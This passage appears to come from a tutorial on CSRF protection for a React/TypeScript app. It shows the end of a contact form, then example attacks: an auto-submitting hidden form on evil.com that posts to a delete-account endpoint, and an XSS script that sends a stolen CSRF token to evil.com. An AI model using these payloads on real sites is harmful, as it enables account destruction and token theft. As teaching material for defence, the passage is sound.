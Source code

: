 ```typescript
        type="email"
        placeholder="Email"
        value={formData.email}
        onChange={(e) => setFormData({ ...formData, email: e.target.value })}
        required
      />
      <input
        type="text"
        placeholder="Subject"
        value={formData.subject}
        onChange={(e) => setFormData({ ...formData, subject: e.target.value })}
        required
      />
      <textarea
        placeholder="Message"
        value={formData.message}
        onChange={(e) => setFormData({ ...formData, message: e.target.value })}
        required
      />
      <button type="submit">Send Message</button>
    </form>
  );
}
```

## Attack Scenarios & Protection

### Attack 1: Malicious Website Submits Form

**Attack:**
```html
<!-- Attacker's website: evil.com -->
<form action="https://yourapp.com/api/delete-account" method="POST">
  <input type="hidden" name="confirm" value="yes" />
</form>
<script>
  document.forms[0].submit(); // Auto-submit
</script>
```

**Protection:**
- No CSRF token in request → withCsrf() returns 403
- User's account safe

### Attack 2: XSS Attempts to Read Token

**Attack:**
```javascript
// Attacker injects script via XSS
fetch('/api/csrf')
  .then(r => r.json())
  .then(data => {
    // Send token to attacker
    fetch('https://evil.com/steal', {
      method: 'POST',
      body: JSON.stringify({ token: data.csrfToken })
    });
  });
```
